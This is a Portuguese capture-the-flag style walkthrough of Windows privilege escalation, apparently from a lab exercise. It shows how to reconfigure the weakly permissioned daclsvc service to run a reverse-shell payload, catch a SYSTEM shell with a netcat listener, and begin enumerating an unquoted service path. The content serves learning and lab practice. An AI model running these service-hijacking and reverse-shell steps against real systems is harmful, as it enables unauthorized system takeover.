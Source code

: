 Percebemos que o serviço `daclsvc` está configurado para ser executado como `LocalSystem`, isso significa que podemos alterar o binário do serviço para executar um payload que irá nos dar acesso como `SYSTEM`.

Então vamos modificar o binário do serviço para executar o nosso payload.

```cmd
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Dessa forma ao reiniciar o serviço, o payload será executado e teremos acesso como `SYSTEM`.

```cmd
PS C:\PrivEsc> net stop daclsvc
The DACL Service service is stopping.
The DACL Service service was stopped successfully.

PS C:\PrivEsc> net start daclsvc
The service is not responding to the control function.
```

<div class="page"/>

Assim conseguimos acesso como `SYSTEM`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           19:40:59
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.220.211] 49926
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico temos que responder qual o `BINARY_PATH_NAME` do serviço `daclsvc`.

![daclsvc](service_permission.png)

---

## **<a id="4"> • Service Exploits - Unquoted Service Path.</a>**

Agora vamos dar uma olhada no serviço `unquotedsvc`.

```cmd
C:\Windows\system32>sc qc unquotedsvc
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
```